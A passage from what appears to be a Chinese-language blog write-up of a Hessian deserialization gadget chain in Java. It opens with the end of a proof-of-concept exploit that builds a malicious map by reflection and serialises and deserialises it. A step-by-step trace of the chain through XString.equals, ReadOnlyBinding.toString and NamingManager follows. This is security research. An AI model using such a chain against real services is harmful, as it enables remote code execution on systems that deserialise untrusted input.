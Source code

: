 ```
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        if (keyField.get(node) instanceof String){
            keyField.set(node, map1);
        }

        ByteArrayOutputStream byteArrayOutputStream1 = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(byteArrayOutputStream1);
        hessian2Output.getSerializerFactory().setAllowNonSerializable(true);
        hessian2Output.writeObject(map);
        hessian2Output.close();

        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream1.toByteArray());
        Hessian2Input hessian2Input = new Hessian2Input(byteArrayInputStream);
        hessian2Input.readObject();
//        Base64.Encoder base = Base64.getEncoder();
//        String base64 = base.encodeToString(byteArrayOutputStream1.toByteArray());
//        System.out.println(base64);
    }
    
}

```

![image-20230313155734995](images/48.png)

## 漏洞分析

这条链其实和Resin链差不多，都是通过XString的equals方法开始的

![image-20230313160020312](images/49.png)

触发的是 `ContextUtil.ReadOnlyBinding` 的 toString 方法（这个类本身没有toString方法，所以回去调用到其父类javax.naming.binding的toString方法）

![image-20230313160234903](images/50.png)

这里会调用getObject方法

![image-20230313160257019](images/51.png)

跟进这里的resolve方法

![image-20230313160335188](images/52.png)

将传进来的value转换为Reference对象，通过其借口判断是否进入if，最后来到了和Resin链一样的NamingManager的getObjectInstance方法

![image-20230313160420739](images/53.png)

后面的流程就是一样的了，但是在这里调用的时候，用InitialContext去得到context对象却抛出异常了，在调用getEnvironment的时候报错了，看师傅们的用的是WritableContext
